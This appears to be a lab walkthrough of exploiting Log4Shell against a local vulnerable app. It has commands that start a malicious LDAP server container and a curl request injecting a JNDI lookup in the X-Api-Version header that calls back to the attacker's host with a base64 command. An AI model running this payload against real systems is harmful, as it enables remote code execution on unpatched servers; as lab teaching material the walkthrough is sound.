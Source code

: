 Steps:
- Connect to the machine
- Test the network connectivity before you move forward:
````
curl http://ipaddr:8080
````
- Set up the malicious LDAP server
	- Start a new screen session `screen -S ldap`
	````
	sudo docker run --name log4jldapserver -p 1389:1389 -p 8888:8888 ppfles/log4shell-ldap-server
	````
- Send the malicious payload:
````
curl ipaddr:8080 -H 'X-Api-Version: ${jndi:ldap://my_ip_addr:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZA==}'
````
NOTES:
- the -H option modifies one of the HTTP header files
- this specific application is logging the X-Api-Version field, so that's where you can inject the malicious code
- the string will start with jndi (Java Naming and Directory Interface). You are telling the app to use jndi, which then allows you to make a request with another protocol, in this case LDAP
- the /Basic/Coimmand/... is a base 64 command that is equal to `touch /tmp/pwned`

- Now cvheck the LDAP server to see its output. Connect back to that screen session with `screen -r ldap`
![](img/screen%20output.png)
- Now, if you execute again the `sudo docker exec vulnapp2 ls /tmp` there must be a new file called pwned